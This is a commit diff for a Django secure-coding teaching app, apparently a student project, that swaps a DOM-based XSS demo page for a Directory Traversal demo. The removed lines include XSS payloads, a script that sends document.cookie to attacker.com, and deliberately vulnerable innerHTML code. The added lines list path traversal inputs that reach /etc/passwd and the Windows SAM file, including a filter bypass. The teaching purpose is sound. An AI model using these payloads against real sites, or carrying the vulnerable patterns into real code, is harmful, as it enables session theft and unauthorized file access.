

Before and after one commit to Si-Hyun-Kim/secureCoding, a Django app: page /myapp/directory-traversal/ in a window 1280 px wide. Shown: the whole page at 89% size, without its empty margins (219-1060 px from the left). After the commit the page ends 883 px from the top, so only its background shows below. Run offline with Django 5.2, Linux system fonts and the light colour scheme.

Commit message:
edit dom, directory traversal

```diff
--- a/myapp/templates/directory_traversal.html
+++ b/myapp/templates/directory_traversal.html
@@ -3,187 +3,57 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>DOM-based XSS 테스트</title>
   {% load static %}
   <link rel="stylesheet" href="{% static 'css/common.css' %}">
   <link rel="stylesheet" href="{% static 'css/test-pages.css' %}">
+  <title>Directory Traversal 테스트</title>
+  <style>
+    li { list-style-type: none; }
+  </style>
 </head>
 <body>
   <div class="container">
-    <h1>🌐 DOM-based XSS 테스트</h1>
+    <h1>Directory Traversal 테스트</h1>
 
     <div class="description">
-      <strong>📖 DOM-based XSS란?</strong><br>
-      서버를 거치지 않고 클라이언트(브라우저)의 JavaScript에서 URL 파라미터를 직접 DOM에 삽입할 때 발생하는 XSS 공격입니다.
-      서버 로그에도 남지 않아 탐지가 어렵습니다.
+      <strong>Directory Traversal(경로 조작)이란?</strong><br>
+      사용자 입력을 통해 파일 경로를 조작하여 애플리케이션이 의도하지 않은 디렉토리나 파일에 접근하는 공격 기법입니다.
     </div>
 
-    <div class="mode-selector">
-      <p><strong>테스트 모드를 선택하세요:</strong></p>
-      <button class="mode-btn vulnerable-btn" onclick="setMode('vulnerable')">
-        ❌ 취약코드 (innerHTML)
+    <form method="post">
+      {% csrf_token %}
+      <label for="filename"><strong>읽을 파일명을 입력하세요</strong></label>
+      <input type="text" name="filename" id="filename" placeholder="예: test.txt">
+
+      <button type="submit" name="mode" value="vulnerable" class="vulnerable">
+        ❌ 취약코드 테스트
       </button>
-      <button class="mode-btn safe-btn" onclick="setMode('safe')">
-        ✅ 안전코드 (textContent)
+      <button type="submit" name="mode" value="safe" class="safe">
+        ✅ 안전코드 테스트
       </button>
-    </div>
-
-    <div class="info-box">
-      <strong>📝 테스트 방법:</strong><br>
-      아래 버튼을 클릭하여 빠르게 테스트하거나, URL에 직접 name 파라미터를 추가하세요
-
-      <div style="margin: 15px 0; padding: 15px; background: white; border-radius: 5px; border: 2px solid #2196F3;">
-        <strong>🚀 빠른 테스트:</strong><br><br>
-
-        <a href="?name=홍길동" style="display: inline-block; padding: 10px 20px; background: #4CAF50; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
-          ✅ 정상 입력
-        </a>
-
-        <a href="?name=<img src=x onerror=alert('XSS 공격!')>" style="display: inline-block; padding: 10px 20px; background: #f44336; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
-          ❌ IMG XSS
-        </a>
-
-        <a href="?name=<svg onload=alert('SVG XSS!')>" style="display: inline-block; padding: 10px 20px; background: #f44336; color: white; border-radius: 5px; text-decoration: none; margin: 5px; font-weight: bold;">
-          ❌ SVG XSS
-        </a>
-
-        <p style="margin-top: 10px; color: #666; font-size: 14px;">
-          💡 링크를 클릭한 후 위의 <strong>"취약코드"</strong> 또는 <strong>"안전코드"</strong> 버튼을 눌러보세요!
-        </p>
-      </div>
-    </div>
-
-    <div class="result-box">
-      <h3>📊 실행 결과</h3>
-
-      <!-- 현재 URL 표시 -->
-      <p><strong>현재 URL:</strong></p>
-      <div class="code" style="margin-bottom: 15px;">
-        <div id="current-url-encoded" style="word-break: break-all; color: #666;"></div>
-      </div>
-
-      <p><strong>디코딩된 URL:</strong></p>
-      <div class="code" style="margin-bottom: 20px;">
-        <div id="current-url-decoded" style="word-break: break-all;"></div>
-      </div>
-
-      <!-- 실행 결과 -->
-      <p><strong>결과:</strong></p>
-      <div id="greeting" style="padding: 20px; background: #fff; border: 2px solid #2196F3; border-radius: 8px; min-height: 80px; font-size: 16px;">
-        <div style="color: #999; text-align: center; padding: 20px;">
-          ✨ URL에 name 파라미터를 추가한 후<br>
-          위의 <strong>"취약코드"</strong> 또는 <strong>"안전코드"</strong> 버튼을 눌러보세요!
-        </div>
-      </div>
-    </div>
+    </form>
 
     <div class="attack-example">
       <h3>🎯 공격 예제</h3>
-      <p><strong>정상 URL:</strong></p>
+      <p><strong>정상 입력:</strong> <code>test.txt</code> → /uploads/test.txt 읽기</p>
+      <p><strong>악의적 입력:</strong> <code>../../etc/passwd</code></p>
       <div class="code">
-        ?name=홍길동
+        # 취약한 코드<br>
+        file_path = "/uploads/" + user_input<br>
+        # user_input = "../../etc/passwd"<br>
+        # 결과: /uploads/../../etc/passwd → /etc/passwd
       </div>
-      <p><strong>악의적 URL:</strong></p>
-      <div class="code">
-        ?name=&lt;img src=x onerror=alert('XSS')&gt;<br>
-        ?name=&lt;script&gt;document.location='http://attacker.com?cookie='+document.cookie&lt;/script&gt;
-      </div>
-
-      <h4>💡 취약한 코드 vs 안전한 코드</h4>
-      <div class="code">
-        // ❌ 취약 (innerHTML 사용)<br>
-        element.innerHTML = "안녕하세요, " + name + "님!";<br>
-        // HTML 태그가 파싱되어 스크립트 실행<br>
-        <br>
-        // ✅ 안전 (textContent 사용)<br>
-        element.textContent = "안녕하세요, " + name + "님!";<br>
-        // 모든 입력을 텍스트로만 처리
-      </div>
+      <p><strong>다양한 공격 패턴:</strong></p>
+      <ul>
+        <li><code>../../../etc/passwd</code> - Linux 시스템 파일</li>
+        <li><code>..\..\..\..\windows\system32\config\sam</code> - Windows 파일</li>
+        <li><code>....//....//etc/passwd</code> - 필터 우회</li>
+      </ul>
     </div>
 
     <div class="links">
       <a href="{% url 'index' %}">🏠 메인으로</a>
     </div>
   </div>
-
-  <script>
-    let currentMode = null;
-
-    // 현재 URL 표시 (인코딩 + 디코딩)
-    function updateCurrentURL() {
-      // 인코딩된 URL (원본)
-      document.getElementById('current-url-encoded').textContent = window.location.href;
-
-      // 디코딩된 URL
-      try {
-        const decodedURL = decodeURIComponent(window.location.href);
-        document.getElementById('current-url-decoded').textContent = decodedURL;
-      } catch (e) {
-        document.getElementById('current-url-decoded').textContent = window.location.href;
-      }
-    }
-
-    function setMode(mode) {
-      currentMode = mode;
-
-      // 버튼 활성화 표시
-      document.querySelectorAll('.mode-btn').forEach(btn => {
-        btn.classList.remove('active');
-      });
-      event.target.classList.add('active');
-
-      // URL에서 name 파라미터 가져오기
-      const params = new URLSearchParams(window.location.search);
-      const name = params.get("name") || "손님";
-
-      const greetingElement = document.getElementById("greeting");
-
-      if (mode === 'vulnerable') {
-        // ❌ 취약한 코드 - innerHTML 사용
-        greetingElement.innerHTML =
-          '<div style="padding: 10px; background: #ffebee; border-left: 4px solid #f44336; border-radius: 5px;">' +
-          '<strong style="color: #c62828;">❌ 취약 모드 실행</strong><br><br>' +
-          '<div style="font-size: 18px; color: #333;">안녕하세요, ' + name + '님!</div>' +
-          '</div>';
-      } else {
-        // ✅ 안전한 코드 - textContent 사용
-        const safeDiv = document.createElement('div');
-        safeDiv.style.cssText = 'padding: 10px; background: #e8f5e9; border-left: 4px solid #4caf50; border-radius: 5px;';
-
-        const modeText = document.createElement('strong');
-        modeText.style.color = '#2e7d32';
-        modeText.textContent = '✅ 안전 모드 실행';
-
-        const br1 = document.createElement('br');
-        const br2 = document.createElement('br');
-
-        const greetingText = document.createElement('div');
-        greetingText.style.cssText = 'font-size: 18px; color: #333;';
-        greetingText.textContent = '안녕하세요, ' + name + '님!';
-
-        safeDiv.appendChild(modeText);
-        safeDiv.appendChild(br1);
-        safeDiv.appendChild(br2);
-        safeDiv.appendChild(greetingText);
-
-        greetingElement.innerHTML = '';
-        greetingElement.appendChild(safeDiv);
-      }
-    }
-
-    // 페이지 로드 시 URL 표시 및 name 확인
-    window.addEventListener('DOMContentLoaded', () => {
-      updateCurrentURL();
-
-      const params = new URLSearchParams(window.location.search);
-      if (params.has('name')) {
-        const name = params.get('name');
-        document.getElementById('greeting').innerHTML =
-          '<em style="color: #999;">✅ URL에 name 파라미터가 있습니다: <strong>' +
-          name.substring(0, 50) + (name.length > 50 ? '...' : '') +
-          '</strong><br>위의 버튼을 눌러 취약/안전 코드의 차이를 확인하세요!</em>';
-      }
-    });
-  </script>
 </body>
 </html>
```
Also changed, not shown: myapp/templates/dom_xss.html (+20 -20 lines).
